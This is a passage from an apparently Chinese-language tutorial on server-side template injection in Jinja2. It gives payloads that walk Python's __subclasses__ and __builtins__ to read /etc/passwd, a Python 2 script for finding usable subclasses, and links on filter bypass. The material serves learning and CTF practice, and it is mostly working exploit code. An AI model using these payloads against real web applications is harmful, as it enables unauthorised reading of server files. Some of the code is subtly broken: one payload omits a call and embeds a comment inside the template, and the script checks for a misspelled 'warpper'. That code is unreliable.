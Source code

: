 #### 文件读取

在子类中如果找到了file，我们可以读取文件

```
{{''.__class__.__mro__[0].__subclasses__[40]('/etc/passwd').read(),直接读取/etc/passwd的文件}}
```

不仅有file读取文件，我们还可以使用builtin来读取文件

```
__builtin__.open()
__builtin__.int()
__builtin__.chr()
```

```
#__init__初始化属性后
#在获取初始化属性后，带wrapper的说明没有重载，寻找不带warpper的
count = -1
for i in ().__class__.__mro__[-1].__subclasses__():
	count += 1
	if "warpper" in repr(i.__init__):
		pass
	else:
		print count, i
#__globals__全局方法，查找当前类包含的所有方法和变量及参数
count = -1
for i in ().__class__.__mro__[-1].__subclasses__():
	count += 1
	if "warpper" in repr(i.__init__):
		pass
	else:
		try:
			if "file" in repr(i.__init__.__globals__):#file可以换
				print count, i
		except:
			pass
```

找到子类后，builtin是全局变量的一种，我们直接运用开始文件读取

```
{{''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()}}

当file换成open后，利用open读取
{{''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
```

###  过滤bypass

[羽师傅](https://blog.csdn.net/miuzzx/article/details/110220425)

https://www.freebuf.com/articles/web/264088.html
